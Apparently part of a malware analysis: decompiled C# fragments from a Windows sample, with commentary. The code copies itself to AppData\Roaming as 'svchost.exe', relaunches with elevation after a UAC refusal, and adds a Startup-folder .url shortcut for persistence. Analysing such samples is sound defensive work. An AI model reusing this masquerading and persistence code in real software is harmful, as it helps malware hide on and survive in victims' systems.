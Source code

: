 ```cs
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```
